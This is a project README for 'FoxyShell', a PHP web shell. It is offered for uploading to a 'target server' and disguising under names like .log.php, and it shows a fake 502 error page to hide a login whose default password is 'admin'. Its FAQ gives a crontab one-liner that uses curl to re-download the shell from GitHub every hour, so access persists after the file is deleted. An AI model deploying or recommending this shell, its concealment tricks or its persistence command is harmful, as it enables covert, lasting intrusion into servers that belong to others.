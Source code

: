 # FoxyShell – Pure PHP Web Shell

**FoxyShell** is a Pure Shell with, feature-packed **PHP web shell** that can be accessed through a simple interface, offers a pleasant UI.

![Preview](videos/demo.gif)
---

## Table of Contents

1. [Features](#features)  
2. [Installation](#installation)  
3. [Usage](#usage)  
4. [Security Recommendations](#security-recommendations)  
5. [FAQ](#faq)  
6. [Credits](#credits)

---

## Features

| Feature             | Description                                                                               |
|---------------------|-------------------------------------------------------------------------------------------|
| **Rename**          | Inline rename of files.                                                                    |
| **New File/Folder** | Quickly create files or folders on the server.                                            |
| **Upload**          | Upload files directly via the interface.                                                  |
| **Inline Editor**   | Edit file contents directly in the browser, then save changes to the server.              |
| **Copy File/Folder**      | Can copy files and folders very simply.                                      |
| **Bulk Copy**       | Can copy files and folders in bulk very easily, thanks to PHP                             |
| **Stealth**         | Can be hidden (e.g., rename to .sec.php), e.g. `foxypure.php` → `.sec.php`.            |
| **Safety**         | If someone opens `https://example.com/foxyshell.php` then the display that is displayed is `502 Bad Gateway`, with Hidden Admin Login, `admin` is default password. |

**Main Selling Points**

- **Works** even if some standard functions (```exec```, ```shell_exec```, ```popen```) are disabled, thanks to alternative methods.  
- **Attractive UI**: Tailwind CSS-based, icons, truncated filenames, etc.  
- **One-file solution**: just upload ```foxypure.php``` to your target server, or hide it (e.g. ```.log.php```).  
---

## Installation

1. **Upload** the single file ```foxypure.php``` to your server.  
2. (Optional) **Hide** it by renaming to a dotfile such as ```.log.php``` or something less conspicuous.  
3. Ensure **permissions** are correct so the script can read/write files on the server.

---

## Usage

1. **Open** the script in your browser, e.g. ```https://example.com/foxypure.php```.  
2. If you’ve **secured** it with an API key or HTTP Auth, provide those credentials.  
3. Once loaded, you’ll see:
   - **Sidebar** with Refresh, Upload, New File/Folder, and the file list.  
   - **Breadcrumb** to navigate directories.  
   - **Editor** to load and modify a file.  
   - **ETC**

## Security Recommendations

- **Restrict Access**: Put this behind **HTTP Basic Auth** or an IP whitelist.  
- **Use HTTPS**: If possible, always run over HTTPS to avoid exposing commands in plaintext.  
- **Rename** to something less obvious (e.g., ```.log.php``` or ```upload-handler.php```).  
- **Log** suspicious IP addresses or set honeypot triggers if you want advanced security.

---

## FAQ

**Q**: What if ```exec```, ```popen``` and ```shell_exec``` are disabled in ```php.ini```?  
**A**: FoxyShell works using pure PHP, thanks to PHP, this Shell will still work even if EXEC has been disabled, no CMD/Command feature – but the file manager, upload, rename, etc., still work.

**Q**: How do I create folders that start with a dot?  
**A**: Just Click ```New folder```.

**Q**: Does the shell require a database?  
**A**: No. It’s a single ```.php``` file – no database or external dependencies needed.

**Q**: How can I always have access even if the shell file has been deleted?  
**A**: You can use crontab to automatically create a shell file in `/public_html/` every hour.

#
Example: (change ```name.php``` and ```username``` according to the server and file name you want)
```
(crontab -l 2>/dev/null; echo "0 * * * * /usr/bin/curl -s \"https://raw.githubusercontent.com/rubahilang/FoxyShell-Pure-PHP/refs/heads/main/foxypure.php\" -o /home/username/public_html/name.php") | crontab -
```
---

## Credits

For further questions, please contact [rubahilang@gmail.com](mailto:rubahilang@gmail.com).
#
Made with ❤️ by **RubahIlang**  
